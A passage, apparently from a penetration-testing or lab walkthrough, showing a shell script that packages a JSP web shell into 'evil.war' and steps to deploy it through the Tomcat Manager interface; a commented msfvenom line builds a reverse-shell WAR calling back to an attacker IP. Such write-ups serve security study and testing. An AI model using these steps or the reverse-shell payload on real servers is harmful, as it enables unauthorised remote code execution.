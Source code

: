    # You might need a minimal web.xml in WEB-INF, though for simple JSPs Tomcat often doesn't strictly require it.
    # Create WEB-INF/web.xml (optional for simple shell, but good practice)
    # echo '<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd" version="3.1"><display-name>EvilApp</display-name></web-app>' > evil_app/WEB-INF/web.xml

    echo "[INFO] Creating evil.war file..."
    # From inside the evil_app directory: jar -cvf ../evil.war .
    # Or from one level above:
    (cd evil_app && jar -cvf ../evil.war .) # The '.' means all files in current dir (evil_app)

    if [ -f "evil.war" ]; then
        echo "[SUCCESS] evil.war created successfully."
    else
        echo "[ERROR] Failed to create evil.war. Ensure JDK (jar command) is installed and paths are correct."
        # Consider using msfvenom for more robust shells:
        # msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f war -o msf_shell.war
        # (You'd need Metasploit Framework and a listener for reverse shell)
    fi
    # Cleanup temporary directory
    rm -rf evil_app
    ```

### 5.3. Uploading and Deploying the Malicious WAR File

*   **Action:** Use the Tomcat Manager GUI.
    1.  Navigate to the "WAR file to deploy" section (or "Deploy directory or WAR file located on server").
    2.  Click "Browse..." or "Choose File", select your `evil.war`.
    3.  Click "Deploy".
*   **Scenario Outcome:** "I navigated to “Select WAR file to upload” section and uploaded it."
*   **Tomcat Manager Behavior:** When you deploy `evil.war`, Tomcat will typically deploy it to a context path named `/evil` (derived from the WAR filename).
